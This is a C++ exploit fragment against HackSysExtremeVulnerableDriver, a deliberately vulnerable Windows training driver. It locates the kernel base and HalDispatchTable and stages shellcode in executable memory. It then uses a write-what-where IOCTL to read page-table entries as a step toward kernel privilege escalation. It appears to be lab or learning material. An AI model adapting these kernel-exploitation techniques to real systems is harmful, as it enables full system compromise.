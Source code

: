 ```cpp
	UINT64 pKernelBase = GetNtBase();

	if (pKernelBase == 0) {
		printf("\n[!] ERROR GETTING THE KERNEL BASE ADDRESS\n");
		getchar();
		return -1;
	}
	printf("\n[KERNEL BASE Addr] -> 0x%p\n", pKernelBase);

	HMODULE hKernelBase = LoadLibraryExW(L"ntoskrnl.exe", nullptr, DONT_RESOLVE_DLL_REFERENCES);
	if (hKernelBase == INVALID_HANDLE_VALUE) {
		printf("\n[!] ERROR GETTING A HANDLE TO \"ntoskrnl.exe\": %d\n", GetLastError());
		getchar();
		return -1;
	}
	printf("[hKernelBase] -> 0x%p\n", hKernelBase);

	UINT64 OffHalDispatchTable = 0;
	PVOID pHalDispatchTable = GetProcAddress(hKernelBase, "HalDispatchTable");
	if (pHalDispatchTable == nullptr) {
		printf("\n[!] ERROR GETTING THE ADDRESS TO \"HalDispatchTable\": %d\n", GetLastError());
		CloseHandle(hKernelBase);
		getchar();
		return -1;
	}
	else {
		OffHalDispatchTable = (UINT_PTR)pHalDispatchTable - (UINT_PTR)hKernelBase;
		printf("\n[HalDispatchTable KM Address] -> 0x%p\n\t\\__[HalDispatchTable Offset] -> 0x%p\n", (pKernelBase + OffHalDispatchTable), OffHalDispatchTable);
		CloseHandle(hKernelBase);
	}

	HANDLE hHEVD = CreateFileW(L"\\\\.\\HackSysExtremeVulnerableDriver", (GENERIC_READ | GENERIC_WRITE),
		0, nullptr, OPEN_EXISTING, 0, nullptr);
	if (hHEVD == INVALID_HANDLE_VALUE) {
		printf("\nError getting a handle to the driver\n");
		CloseHandle(hKernelBase);
		getchar();
		//return -1;
	}
	printf("HANDLE created successfully!\n");
	
	WRITE_WHAT_WHERE WhaWhe = { 0 };

	void* ShellcodeAddr = VirtualAlloc(nullptr, SHELLCODE_SIZE, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	memcpy(ShellcodeAddr, pShellcode, SHELLCODE_SIZE);

	UINT64 ShellcodePageBase = (ULONG_PTR)ShellcodeAddr >> 9;
	ShellcodePageBase &= 0x7FFFFFFFF8;
	ShellcodePageBase += 0xFFFFF68000000000;

	printf("\n[UM Shellcode Page Base] -> 0x%p\n", ShellcodePageBase);

	PVOID Pte_details = nullptr;

	WhaWhe.What = (void*)ShellcodePageBase;
	WhaWhe.Where = (void*)&Pte_details;

	ULONG lpBytesReturned = 0;
	DeviceIoControl(hHEVD, 0x22200B, &WhaWhe, sizeof(WRITE_WHAT_WHERE), nullptr, 0, &lpBytesReturned, nullptr);
```